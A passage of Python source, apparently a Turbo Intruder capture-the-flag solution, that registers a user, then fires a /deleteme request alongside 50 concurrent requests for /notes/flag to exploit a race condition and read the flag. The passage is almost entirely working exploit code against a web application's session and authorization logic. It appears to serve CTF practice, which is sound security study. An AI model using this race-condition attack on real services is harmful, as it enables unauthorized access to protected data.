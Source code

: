 ```python
    )
    engine = RequestEngine(endpoint=endpoint)
    engine.queue(req_login_user)
    engine.complete(timeout=2)

    return token


def queueRequests(target, wordlists):
    token = register_and_login_user(randstr(length=10), randstr(length=10))

    engine = RequestEngine(
        endpoint=endpoint, concurrentConnections=50, requestsPerConnection=100, pipeline=False,
        callback=handleFlagResponse
    )

    get_flag_req = "GET /notes/flag HTTP/1.1\nHost: " + host + "\nCookie: connect.sid=" + token + "\n\n"
    deleteme_req = "POST /deleteme HTTP/1.1\nHost: " + host + "\nCookie: connect.sid=" + token + "\n\n"

    engine.queue(deleteme_req)

    for _ in range(50):
        engine.queue(get_flag_req)

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)


def handleFlagResponse(req, interesting):
    # A status of 200 means we were allowed to access the flag
    if req.status == 200:
        table.add(req)
```